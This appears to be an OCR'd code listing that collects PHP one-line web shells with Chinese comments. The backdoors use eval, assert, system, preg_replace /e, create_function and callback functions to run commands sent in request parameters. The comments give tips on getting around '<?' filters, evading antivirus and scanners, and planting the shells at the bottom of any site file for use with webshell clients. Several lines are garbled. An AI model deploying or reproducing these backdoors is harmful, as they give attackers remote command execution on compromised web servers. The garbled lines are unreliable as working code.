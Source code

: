 ```php
##PHP：
<?php @eval($_POST['r00ts']);?> 
<?php phpinfo();?>
<?php @eval($_POST[cmd]);?>
<?php @eval($_REQUEST[cmd]);?>
<?php assert($_REQUEST[cmd]); ?>
<?php //?cmd=phpinfo() @preg_replace("/abc/e",$_REQUEST['cmd'],"abcd"); ?>
<?php 
//?cmd=phpinfo();
$func =create_function('',$_REQUEST['cmd']);
$func();
?>

<?php
//?func=system&cmd=whoami
$func=$_GET['func'];
$cmd=$_GET['cmd'];
$array[0]=$cmd;
$new_array=array_map($func,$array);
//print_r($new_array);
?>

<?php 
//?cmd=phpinfo()
@call_user_func(assert,$_GET['cmd']);
?>

<?php 
//?cmd=phpinfo()
$cmd=$_GET['cmd'];
$array[0]=$cmd;
call_user_func_array("assert",$array);
?>

<?php 
//?func=system&cmd=whoami
$cmd=$_GET['cmd'];
$array1=array($cmd);
$func =$_GET['func'];
array_filter($array1,$func);
?>

<?php usort($_GET,'asse'.'rt');?> php环境>=<5.6才能用
<?php usort(...$_GET);?>  php环境>=5.6才能用
<?php eval($_POST1);?> 
<?php if(isset($_POST['c'])){eval($_POST['c']);}?> 
<?php system($_REQUEST1);?> 
<?php ($_=@$_GET1).@$_($_POST1)?> 
<?php eval_r($_POST1)?> 
<?php @eval_r($_POST1)?>//容错代码 
<?php assert($_POST1);?>//使用Lanker一句话客户端的专家模式执行相关的PHP语句 
<?$_POST['c']($_POST['cc']);?> 
<?$_POST['c']($_POST['cc'],$_POST['cc'])?> 
<?php @preg_replace("/[email]/e",$_POST['h'],"error");?>/*使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入*/:<O>h=@eval_r($_POST1);</O> 
<?php echo `$_GET['r']` ?> 

<script language="php">@eval_r($_POST[sb])</script> //绕过<?限制的一句话

<?php (])?>   上面这句是防杀防扫的！网上很少人用！可以插在网页任何ASP文件的最底部不会出错，比如 index.asp里面也是可以的！

<?if(isset($_POST['1'])){eval($_POST['1']);}?><?php system ($_REQUEST[1]);?> 
加了判断的PHP一句话，与上面的ASP一句话相同道理，也是可以插在任何PHP文件 的最底部不会出错！
```